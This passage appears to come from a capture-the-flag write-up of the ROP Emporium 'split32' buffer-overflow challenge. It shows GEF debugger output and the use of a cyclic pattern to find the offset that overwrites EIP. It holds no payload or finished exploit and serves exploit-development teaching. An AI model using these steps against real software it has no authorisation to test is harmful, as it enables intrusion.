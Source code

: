 ```cpp
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x41414141
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "split32", stopped 0x41414141 in ?? (), reason: SIGSEGV
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤
```

Let's try to find the offset the program crashed at. The `gef` extension comes with a utility that allows us to create a cyclic pattern of a specified length.
We can generate one with `pattern create <length>` and then use the generated string as input.

```cpp
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes (n=4)
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
[+] Saved as '$_gef0'
gef➤  r
Starting program: /root/rop/split/split32
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
split by ROP Emporium
x86

Contriving a reason to ask user for data...
> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```

After the program segfaults, we can use `pattern offset $eip` to find the offset.

```cpp
[ Legend: Modified register | Code | Heap | Stack | String ]
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0xb
$ebx   : 0xf7face34  →  ",\r#"
$ecx   : 0xf7fae8a0  →  0x00000000
$edx   : 0x0
$esp   : 0xffffd390  →  0x6161616d ("maaa"?)
$ebp   : 0x6161616b ("kaaa"?)
$esi   : 0x08048630  →  <__libc_csu_init+0000> push ebp
$edi   : 0xf7ffcb60  →  0x00000000
$eip   : 0x6161616c ("laaa"?)
$eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffd390│+0x0000: 0x6161616d	 ← $esp
0xffffd394│+0x0004: 0x6161616e
0xffffd398│+0x0008: 0x6161616f
0xffffd39c│+0x000c: 0x61616170
0xffffd3a0│+0x0010: 0x61616171
0xffffd3a4│+0x0014: 0x61616172
0xffffd3a8│+0x0018: 0x61616173
0xffffd3ac│+0x001c: 0x61616174
```